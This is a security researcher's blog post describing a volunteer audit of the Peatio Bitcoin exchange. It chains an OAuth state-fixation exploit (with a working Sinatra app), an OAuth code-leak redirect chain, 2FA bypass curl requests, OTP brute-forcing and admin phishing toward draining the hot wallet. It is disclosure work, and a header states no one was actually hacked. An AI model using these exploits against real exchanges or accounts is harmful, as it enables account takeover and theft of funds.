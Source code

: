 ```yaml
---
layout: post
title:  "Hacking a Bitcoin Exchange"
author: "Egor Homakov (<a href='https://twitter.com/homakov'>@homakov</a>)"
---
```


UPDATE: Once again - no one was hacked in reality and the audit was conducted for free. This post is simply an attack scenario. [You can download the final report and see clarifications here.](https://sakurity.com/blog/2015/01/22/peatio-audit.html)

For a while we've been looking for a project to conduct volunteer security audit. Recently we found a perfect suit for us - [an open source crypto currency exchange Peatio](https://www.peat.io/) powered by Rails.

We dedicated 8 hours to find a way to do the worst you can do with a Bitcoin exchange - steal the hot wallet. The mission was partially accomplished and we found an interesting chain of critical vulnerabilities.

## Step 1. Hijacking the account

![](https://sakurity.com/img/weibo.png)

Peatio has "Connect Weibo account" feature built-in. According to [OAuth Security Cheatsheet](https://oauthsecurity.com), poorly implemented OAuth is a reliable way to take over an account.

##### Connecting attacker’s weibo account to the victim's Peatio account

[omniauth-weibo-oauth2](https://github.com/beenhero/omniauth-weibo-oauth2/pull/12) gem was vulnerable to state fixation. We can set state to arbitrary value (e.g. 123) and apply the attacker’s code instead along with state=123, which will lead to assigning attacker's weibo  to victim's peatio account. The exact same issue was in [omniauth-facebook gem](https://github.com/mkdynamic/omniauth-facebook/wiki/CSRF-vulnerability:-CVE-2013-4562) and [others omniauth-based libraries](https://github.com/search?q=support+omniauth-oauth2+auto+csrf+protection&ref=searchresults&type=Code&utf8=%E2%9C%93) copypasting same vulnerable code. It's funny that the comment above says **"to support omniauth-oauth2's auto csrf protection"** but does the opposite and [switches it off](/img/codecomments.png).

The bug can be exploited with following Sinatra app, just add YourWeiboCookies:

{%highlight ruby%}
require 'sinatra'
get '/get_weibo_cb' do

  conn = Faraday.new(:url => 'https://api.weibo.com')
  new_url = conn.get do |r|
    r.url "/oauth2/authorize?client_id=456519107&redirect_uri=https%3A%2F%2Fyunbi.com%2Fauth%2Fweibo%2Fcallback&response_type=code&state=123"

    r.headers['Cookie'] =<<COOKIE
YourWeiboCookies
COOKIE

    r.options.timeout = 4        
    r.options.open_timeout = 2
  end.headers["Location"]
  redirect new_url
end

get '/peatio_demo' do
  response.headers['Content-Security-Policy'] = "img-src 'self' https://yunbi.com"
  "<img src='https://yunbi.com/auth/weibo?state=123'><img src='/get_weibo_cb'>"
end
{%endhighlight%}




##### What if the user already has Weibo connected?

The system is not going to connect another Weibo account but we wanted the exploit to work seamlessly for every possible victim. So we hacked Weibo's OAuth.

First, we found out Weibo doesn't whitelist `redirect_uri` like [Github didn't](https://homakov.blogspot.com/2014/02/how-i-hacked-github-again.html). It's possible to change `redirect_uri` to another page on the victim domain to leak the `code` in the Referrer header and then use it to log in victim's account.

However there was no such page on Peatio to make it leak. No external images, links or anything. The attack surface was so tiny. But then we found this in `DocumentsController`:

    if not @doc
      redirect_to(request.referer || root_path)
      return
    end

Following chain of redirects leaks the code by putting it in the `#` fragment first. 

1. `attacker_page` redirects to `weibo.com/authorize?...redirect_uri=https://app/documents/not_existing_doc%23...`
2. Weibo doesn't properly parse `redirect_uri` and redirects the victim to `https://app/documents/not_existing_doc#?code=VALID_CODE`
3. Peatio cannot find `not_existing_doc` and sends back Location header equal request.referer which is still attacker_page (the browser retains this header while gets redirected)
4. The browser preserves `#?code=VALID_CODE` fragment and loads `attacker_page#?code=VALID_CODE`. Now the code can be leaked with JS via `location.hash` variable. The code can be used against `https://app/auth/weibo/callback` to log in the victim's account.

So using two bugs above we can hijack any peatio account and only last one requires JS.

## Step 2: Bypassing 2 Factor Authentication



##### For users with Google Authenticator activated

![](https://sakurity.com/img/ga.png)


There’s a gaping hole in SmsAuthsController - `two_factor_required!` is only called for `show` action, but not for `update` which is actually responsible for activating SMS 2FA.

    before_action :auth_member!
    before_action :find_sms_auth
    before_action :activated?
    before_action :two_factor_required!, only: [:show]

    def show
      @phone_number = Phonelib.parse(current_user.phone_number).national
    end

    def update
      if params[:commit] == 'send_code'
        send_code_phase
      else
        verify_code_phase
      end
    end

We can activate new SMS authenticator simply sending following requests straight to `update` action.
    
curl 'https://app/verify/sms_auth' -H 'X-CSRF-Token:ZPwrQuLJ3x7md3wolrCTE6HItxkwOiUNHlekDPRDkwI=' 
-H 'Cookie:_peatio_session=SID’ 
--data '_method=patch&sms_auth%5Bcountry%5D=DE&sms_auth%5B
phone_number%5D=9123222211&commit=send_code'

![](https://sakurity.com/img/success.png)

curl 'https://app/verify/sms_auth' -H 'X-CSRF-Token:ZPwrQuLJ3x7md3wolrCTE6HItxkwOiUNHlekDPRDkwI='
-H 'Cookie:_peatio_session=SID’ --data '_method=patch&sms_auth%5Bcountry%5D=DE&sms_auth%5B
phone_number%5D=9123222211&sms_auth%5Botp%5D=CODE_WE_RECEIVED'

![](https://sakurity.com/img/verified.png)

##### For users with both Authenticator and SMS 

![](https://sakurity.com/img/both.png)


Peatio doesn’t store failed attempts for OTP so it’s very easy to bruteforce both App and SMS OTPs, it will take less than 3 days. For more details check our [OTP Bruteforce Calculator](https://sakurity.com/otp)

![](https://sakurity.com/img/brute.png)


##### For users with SMS 2FA only

`two_factor_by_type` method doesn’t use `activated` scope so even inactive 2FA models can be used. Thus we are not going to brute SMS auth because the victim will start receiving suspicious SMS. We still can bruteforce Google Authenticator because it has seed generated and `verify?` method is working fine.

    def two_factor_by_type
      current_user.two_factors.by_type(params[:id])
    end

##### Furthermore, SMS 2FA has two more issues

    def gen_code
      self.otp_secret = OTP_LENGTH.times.map{ Random.rand(9) + 1 }.join
      self.refreshed_at = Time.now
    end

First issue is `Random.rand` is based on PRNG (Mersenne Twister) which is easily predictable once you have enough subsequently generated numbers. 

Second issue is `rand(9)` can only generate numbers from 0 to 8 so total number of combinations will be 9^6=531441 almost twice less than 1,000,000 and twice easier to bruteforce than App 2FA.


With tricks outlined above we can bypass 2FA for any user. In worst case scenario it takes less than 3 days. If the victim has only Google Authenticator it takes less than 5 seconds to set up new SMS authenticator.

## Step 3: Attacking the admin

Alright, we can hijack the account and bypass 2FA for any user, so we can steal the Bitcoins from anyone who visits our page. Still we need a lot of users to trick into clicking our phishy links. Let's focus on just one of them - the admin.

The simplest way to make the admin visit our link is to create a support ticket with something like "What is wrong with my account can you please check? https://i.will.hack.you/now". Then we hack 2FA to get into the `/admin` panel:

![](https://sakurity.com/img/admin.png)

Unfortunately, this is the worst part. The admin of Peatio can do just few more things  than a regular user. Nothing like "Send all the coins to this bad guy" or "Show API keys of all users". 

      can :update, Proof
      can :manage, Document
      can :manage, Member
      can :manage, Ticket
      can :manage, IdDocument
      can :manage, TwoFactor
      can :menu, Deposit
      can :manage, Deposit
      can :manage, ::Deposits::Bank
      can :manage, ::Deposits::Satoshi
      can :menu, Withdraw
      can :manage, ::Withdraws::Bank
      can :manage, ::Withdraws::Satoshi

The only thing we found is creating a fiat deposit of like 99999999 Chinese Yuan and then accepting it by an admin.

![](https://sakurity.com/img/yuan.png)

Then we can buy all available Bitcoins and altcoins to withdraw them. However not all Bitcoins are on orders. Doing it in stealth mode for a week can bring better results than closing all the orders in rush mode. 

Yunbi assets: [1636 BTC in total and ~350 in the hot wallet](https://yunbi.com/exchange_assets)

Our bounty: 1 BTC. It wasn't about money though.

Finally, the report is [available to download](https://sakurity.com/peatio.pdf).
